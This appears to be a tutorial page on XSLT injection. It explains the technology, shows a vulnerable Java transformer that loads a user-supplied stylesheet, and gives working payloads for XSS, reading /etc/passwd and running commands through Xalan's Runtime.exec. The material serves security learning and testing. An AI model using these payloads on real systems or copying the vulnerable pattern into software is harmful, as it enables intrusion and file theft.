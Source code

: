 # Introduction
1. XSLT stands for Extensible Stylesheet Language Transformations.
2. XSL (Extensible Stylesheet Language) is a language for transforming XML documents and the XSL Transformations are XML documents themselves.
3. The result of the transformation can be a different XML document or something else such as an HTML document, a CSV file or a plain text file.
4. Improper implementation of XSLT may introduce several security issues in the application which may range from Cross-Site Scripting to Remote Code Execution. 
5. The most used frameworks are: Libxslt (Gnome), Xalan (Apache) and Saxon (Saxonica).

# Common Use-Cases
1. Report Generation/Data Export Functionality: There are applications which supports report generation/data export in multiple formats such as PDF, XML, CSV, etc and often they may utilize the a custom XSLT based Implementation for this feature.

2. Printing & Emailing Through Application: An XSLT based implementation can be used when an application provides Print/Email functionalities within the application. 

- In General, when there is any type of transformation from one data type to other is observed, there's always a good idea to check if the XSLT is used.

# Attack Vectors
- XSLT Injection Attacks can happen when the Data enters a program from an untrusted source and the Data is writtened to an XSL stylesheet.

- There are multiple attack scenarios in a vulnerable XSLT Implementation including but not limited to: 

    1. Cross-Site Scripting 
    2. External Service Interaction
    3. Local File Read
    4. Remote Code Execution
    5. Server-Side Request Forgery
    6. Cross-Site Port Attack
    7. External Entity Injection

- Exploitation Paylods can be Found here: 

    1. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSLT%20Injection/README.md
    2. https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-languaje-transformations

# Vulnerable Code Snippets
## XSLT Implemented in Java 

 ...
  InputStream xmlUrl = Utils.getFromURL(request.getParameter("xmlurl"));
  InputStream xsltUrl = Utils.getFromURL(request.getParameter("xslurl"));

  Source xmlSource = new StreamSource(xmlUrl);
  Source xsltSource = new StreamSource(xsltUrl);
  Result result = new StreamResult(System.out);

  TransformerFactory transFact = TransformerFactory.newInstance();
  Transformer trans = transFact.newTransformer(xsltSource);
  trans.transform(xmlSource, result);
  ...
  
1. Executing XSS in Above Code: 
xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
    <xsl:template match="/">
      <script>alert(123)</script>
    </xsl:template>
  </xsl:stylesheet>
  
2. Executing File Read in Above Code: 
 <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
    <xsl:template match="/">
      <xsl:copy-of select="document('/etc/passwd')"/>
    </xsl:template>
  </xsl:stylesheet>
  
  
3. Executing Arbitrary Code in Above Code: 
 <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime" xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object">
    <xsl:template match="/">
      <xsl:variable name="rtobject" select="rt:getRuntime()"/>
      <xsl:variable name="process" select="rt:exec($rtobject,'ls')"/>
      <xsl:variable name="processString" select="ob:toString($process)"/>
      <xsl:value-of select="$processString"/>
    </xsl:template>
  </xsl:stylesheet>


# References & Good Reads
a.  https://www.contextis.com/en/blog/xslt-server-side-injection-attacks
b. https://vulncat.fortify.com/en/detail?id=desc.dataflow.java.xslt_injection#Java%2FJSP
c. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSLT%20Injection/README.md
d. https://blog.hunniccyber.com/ektron-cms-remote-code-execution-xslt-transform-injection-java/
